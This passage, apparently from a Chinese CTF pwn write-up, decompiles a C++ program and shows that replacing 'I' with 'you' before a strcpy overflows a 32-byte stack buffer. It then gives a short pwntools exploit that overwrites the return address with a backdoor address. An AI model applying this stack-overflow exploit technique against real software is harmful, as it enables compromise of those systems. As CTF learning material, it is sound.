 ```cpp
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```
这里重点关注"="和replace函数，这也是程序在栈内存中操作的重点。在调试过程中，那些``std::allocator<char>::allocator``的语句对栈区没有明显的影响，略过。经过手动反编译，还原出的源代码大致如下：
```cpp
#include <iostream>
#include <stdio.h>
#include <string.h>
using namespace std;
string input;

int vuln(){
	char info[32];
	printf("Tell me something about yourself: ");
	fgets(info, 32, stdin);
	input = info;
	string you = "you";
	string I = "I";
	rep = replace(input, you, I);	// replace "I" with "you"
	strcpy(info, rep.c_str());
}

int main(){
	vuln();
	return 0;
}
```
这个函数的功能是将info中所有的"I"换成"you"，replace函数甚至都无需分析。由此很容易看出这里有潜在的溢出问题。而且程序本身也给了后门，因此直接修改返回地址即可。
exp：
```python
from pwn import *
io = process('./pwn')
payload = b'I' * 20 + p32(0xdeadbeef) + p32(0x8048f0d)
io.sendline(payload)
io.interactive()
```
# buu006-jarvisoj_level0
```python
```